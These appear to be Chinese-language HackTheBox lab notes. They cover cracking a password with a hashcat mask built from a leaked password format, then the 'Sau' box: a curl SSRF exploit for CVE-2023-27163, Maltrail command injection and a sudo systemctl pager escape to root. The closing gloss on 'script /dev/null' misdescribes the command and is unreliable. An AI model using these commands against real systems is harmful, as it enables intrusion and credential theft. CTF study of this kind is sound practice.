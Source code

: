 在`/var/mail/susan`里有如下内容
```text
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

即使用新的密码,再加上之前读到的sqlite3.db文件,可以破解密码

`hashcat -a 3 -m 1400 hashes.txt  susan_nasus_?d?d?d?d?d?d?d?d?d`

内存不够,先跳过

### Sau
#### user

nmap:
![image](https://i.imgur.com/UMFB7tm.png)

先访问55555这个端口
跟个webhook一样的东西`request basket`
可以找到`CVE-2023-27163`存在ssrf
#ssrf
[doc](https://notes.sjtu.edu.cn/s/MUUhEymt7)
```shell
 curl --location 'http://10.10.11.224:55555/api/baskets/mahesh' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
```

通过这个我们可以访问靶机的80端口
发现是`Maltrail (v0.53)`,在登录处存在命令注入
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230722000626.png)

#### root
`sudo -l`查看权限
![image](https://i.imgur.com/gnBjgR6.png)

在`GTOBins`上可以systemctl看到提权
执行后类似于`less`命令,可以使用`!sh`提权

1. `script /dev/null /bin/bash`
> script /dev/null /bin/bash 命令的作用是启动一个新的 Bash 会话，并将所有的输出和输入重定向到 /dev/null 设备。这个命令通常用于在不产生任何输出的情况下启动一个新的 Bash shell。
